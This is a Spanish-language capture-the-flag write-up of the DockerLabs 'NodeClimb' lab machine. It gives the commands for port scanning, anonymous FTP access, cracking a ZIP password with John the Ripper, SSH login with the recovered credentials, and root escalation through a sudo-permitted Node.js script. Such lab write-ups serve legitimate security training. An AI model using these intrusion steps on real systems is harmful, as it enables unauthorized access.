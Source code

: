 ### Informe Técnico: Análisis de la máquina vulnerable **NodeClimb**

**Dificultad**: Fácil

**Objetivo**: **Escalada de privilegios y acceso root a la máquina vulnerable.**

---

#### **1. Despliegue de la máquina vulnerable**

Para comenzar, descargué la máquina **NodeClimb** desde DockerLabs. Para ello, se usa el siguiente comando para descomprimir la máquina:

```bash
unzip nodeclimb.zip
```

Una vez descomprimida, se puede desplegar ejecutando el script de instalación con privilegios de superusuario:

```bash
sudo bash auto_deploy.sh nodeclimb.tar
```


![Despliegue de la máquina](./Imágenes/2025-05-13_23-53.png)

---

#### **2. Confirmación de conexión a la máquina vulnerable**

Con el fin de confirmar que la máquina está corriendo y es accesible, realicé un **ping** a la dirección IP de la máquina vulnerable:

```bash
ping -c1 172.17.0.3
```

![Confirmación de conexión](./Imágenes/Capturas.png)

---

#### **3. Escaneo de puertos con Nmap**

A continuación, utilicé **Nmap** para realizar un escaneo de puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Este escaneo reveló que los puertos 21 (FTP) y 22 (SSH) estaban abiertos.

![Escaneo de puertos](./Imágenes/Capturas_1.png)

---

#### **4. Extracción de puertos relevantes**

Utilizando un script personalizado llamado `extractPorts`, extraje los puertos relevantes y luego realicé un escaneo más exhaustivo para obtener información detallada, como las versiones de los servicios:

```bash
nmap -sC -sV -p21,22 172.17.0.3 -oN target.txt
```

El escaneo mostró que el servicio **FTP** permitía acceso mediante el usuario **Anonymous**, lo que nos dio acceso sin necesidad de credenciales.

![Escaneo exhaustivo](./Imágenes/Capturas_2.png)

---

#### **5. Acceso al servicio FTP**

Con el usuario **Anonymous**, ingresé al servicio FTP sin necesidad de contraseña:

```bash
ftp 172.17.0.3
# Usuario: Anonymous
# Contraseña: Enter
```

Una vez dentro, listé los archivos con el comando `ls -la` y encontré un archivo **.zip** llamado `secretitopicaron.zip`. Lo descargué a mi máquina local usando el comando:

```bash
get secretitopicaron.zip
```

![Acceso FTP](./Imágenes/Capturas_3.png)

---

#### **6. Cracking de la contraseña del archivo ZIP**

Al intentar descomprimir el archivo `secretitopicaron.zip`, me pidió una contraseña. Usé la herramienta **John the Ripper** para crackear la contraseña.

**Paso 1: Extraer el hash del archivo ZIP**

```bash
zip2john secretitopicaron.zip > hash.txt
```

Esto convierte el archivo ZIP cifrado en un hash que John the Ripper puede procesar.

**Paso 2: Crackear el hash usando un diccionario (en este caso, `rockyou.txt`)**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Paso 3: Mostrar la contraseña**

```bash
john --show hash.txt
```

John encontró que la contraseña del archivo ZIP es **password1**.

![Cracking de contraseña](./Imágenes/Capturas_4.png)

![Archivo password.txt](./Imágenes/Capturas_5.png)


![Escalada de privilegios](./Imágenes/Capturas_6.png)


---

#### **7. Descompresión y análisis del archivo `password.txt`**

Una vez que se obtuvo la contraseña, descomprimí el archivo ZIP con éxito. Dentro encontré un archivo llamado **password** con las siguientes credenciales:

```
usuario: mario
contraseña: laKontraseñAmasmalotaHdelbarrioH
```

Suponiendo que estas son las credenciales para el servicio **SSH**, intenté iniciar sesión en el servicio **SSH**.

**Nota**: Antes, intenté realizar un ataque de **fuerza bruta** con **Hydra** en el servicio SSH sin éxito.


---

#### **8. Acceso al servicio SSH**

Con las credenciales obtenidas (`mario:laKontraseñAmasmalotaHdelbarrioH`), accedí exitosamente al servicio SSH:

```bash
ssh mario@172.17.0.3
```

Una vez dentro, ejecuté el siguiente comando para verificar si tenía privilegios de **sudo** sin necesidad de contraseña:

```bash
sudo -l
```

Esto reveló que el usuario **mario** tiene acceso sin contraseña a ejecutar el siguiente comando:

```
(ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

---

#### **9. Escalada de privilegios con Node.js**

Con esta información, me dirigí al directorio donde se encontraba el script (`/home/mario`) y lo edité. El script tenía permisos suficientes para ser ejecutado con **sudo**, lo que me permitió ejecutar el siguiente comando para obtener privilegios de **root**:

```bash
sudo node /home/mario/script.js
```

Luego, ejecuté:

```bash
bash -p
```

Esto abrió una terminal con privilegios **root**, completando así la escalada de privilegios.

---

### **Resumen**

* **Acceso inicial**: FTP con usuario **Anonymous**.
* **Descarga y análisis**: El archivo ZIP `secretitopicaron.zip` contiene credenciales para SSH.
* **SSH y privilegios de sudo**: El usuario **mario** puede ejecutar un script con **sudo** sin contraseña.
* **Escalada de privilegios**: Ejecución del script de Node.js para obtener acceso root.

Este informe describe el proceso completo de explotación de la máquina **NodeClimb** y la escalada de privilegios para obtener acceso root.
